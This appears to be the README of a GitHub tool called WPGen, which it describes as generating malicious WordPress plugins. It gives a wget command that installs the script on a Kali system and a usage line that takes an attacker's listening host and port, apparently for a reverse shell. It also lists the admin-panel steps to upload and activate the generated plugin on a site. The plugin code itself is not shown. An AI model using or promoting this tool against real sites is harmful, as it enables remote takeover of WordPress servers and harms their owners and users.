 # WPGen

**Auto Generator Malicious Plugins WordPress**

![](/screenshot.png)

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen -h <LHOST> -p <LPORT>
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
